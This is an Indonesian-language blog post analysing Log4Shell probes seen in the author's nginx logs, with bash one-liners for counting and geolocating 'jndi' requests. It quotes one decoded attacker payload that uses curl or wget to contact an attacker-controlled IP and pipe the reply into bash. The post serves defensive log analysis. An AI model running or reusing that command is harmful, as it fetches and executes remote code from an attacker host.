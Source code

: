 ```yaml
---
layout: post
published: true
title: nginx log terkait log4j/ log4shell
author: admin
comments: true
date: '2021-12-23 22:00'
categories:
  - vuln
  - nginx
  - log
---
```

#### intro

log4j/ log4shell adalah sebuah vuln yang cukup menghebohkan di akhir tahun ini, hal ini karena aplikasi logging ini cukup banyak di pakai di software OSS, serta vuln. nya yang cukup parah.
log4j memiliki kelemahan yang membuat attacker bisa menjalankan perintah dari jauh (RCE) dengan mengirimkan perintah lookup tertentu ke service yang menjalankan log4j.
tulisan ini meramu beberapa exploitasi yang tertangkap di nginx log milik penulis di salah satu penyedia jasa cloud.
<!--more-->
#### informasi terkait log4j/ log4shell
cara kerja exploit: ![log4j](/images/log4j.jpg)

informasi cve-nya: [mitre](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228)

#### nginx di azure
beberapa hari setelah berita log4j ramai di jagat infosec, dan karena masih terdapat sisa credit azure, maka penulis menjalankan aplikasi nginx di salah satu vm di azure.
sebenarnya penulis juga menjalankan inetsim, untuk mencoba peruntungan pada port lain, namun log inetsim sangat sedikit (jarang di akses), dan mungkin nanti dilakukan update pada tulisan ini setelah inetsim lebih laku.
hasil dari log selama beberapa hari tersebut membuat kita bisa mempelajari lebih jauh serangan yang dilakukan. berikut beberapa hasilnya:

1. ip berdasarkan request terbanyak yang memuat string "jndi"
```bash
cat access.log* | grep -i jndi |awk '{print $1}'| sort | uniq -c | sort -rn > top_ip_jndi.txt
```
![topip](/images/log4j2.PNG)

2. menambahkan negara ke list ip pada nomor sebelumnya
```bash
cat top_ip_jndi.txt | while read amt ip;do country=$(geoiplookup $ip | awk -v FS="(GeoIP Country Edition: |,)" '{print $3}'); echo $amt $ip $country; done;
```
![topipwithcountry](/images/log4j3.PNG)

3. melihat rincian string exploit
```bash
cat access.log* | grep -i jndi |awk '{print $7}'| sort | uniq -c | sort -rn
```
![strings](/images/log4j1.PNG)

dengan merefer ke gambar pada bagian awal, kita dapat melihat bahwa serangan ini cukup sederhana. attacker mengirimkan string lookup ke sebuah server yang dikuasai, reply dari lookup tersebut akan di eksekusi oleh server target (RCE).
namun terlihat pada gambar diatas, kebanyakan serangan tersebut hanya bertujuan recon/ mengetahui apakah server vulnerable, dan bukan  merupakan RCE.
string yang paling banyak ditemui (urutan pertama) di-encode dengan base64, yang bila di-decode menampilkan:
```bash
(curl -s 195.54.160.149:5874/[targetsvr]:80||wget -q -O- 195.54.160.149:5874/[targetsvr]:80)|bash
```
secara sederhana mengirimkan alamat [targetsvr] ke resources yang dikuasai penyerang (195.54.160.149) dengan curl/ wget.

#### penutup
walaupun cukup heboh, nampaknya tidak terlalu banyak juga penyerang yang memanfaatkan log4j. Mungkin juga ada attacker yang ketika mengenali versi nginx yang saya jalankan, dan memutuskan tidak perlu mengirimkan string "jndi" sehingga saya tidak mendeteksinya (*pendapat tidak berdasar).
sudah terdapat beberapa langkah mitigasi di dunia maya, sehingga bila anda terdampak, sangat disarankan melakukan mitigasi.
log dari inetsim sendiri akan saya update bila hasilnya menarik.
